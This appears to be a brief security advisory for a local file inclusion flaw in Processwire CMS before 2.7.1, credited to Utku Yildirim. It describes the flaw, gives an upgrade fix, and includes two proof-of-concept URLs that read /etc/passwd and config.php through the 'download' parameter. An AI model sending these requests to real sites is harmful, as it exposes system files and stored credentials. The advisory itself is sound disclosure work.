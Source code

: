 # LFI-Processwire CMS
Local File Inclusion Processwire CMS < 2.7.1

Product: https://processwire.com/
Vendor: Processwire CMS
Tested version: 2.x < 2.7.1

** Description **
Local File Inclusion in Processwire CMS < 2.7.1 allows to
retrieve arbitrary files via the download parameter to index.php

By providing a specially crafted path to the vulnerable parameter, a remote attacker can retrieve the contents of sensitive files on the local system.

** Proof of Concept **
http://<host>/index.php?download=/etc/passwd
http://<host>/index.php?download=../config.php

** Solution **
Upgrade Processwire CMS to version 2.7.1 or later.
--
Best Regards,
Utku YILDIRIM

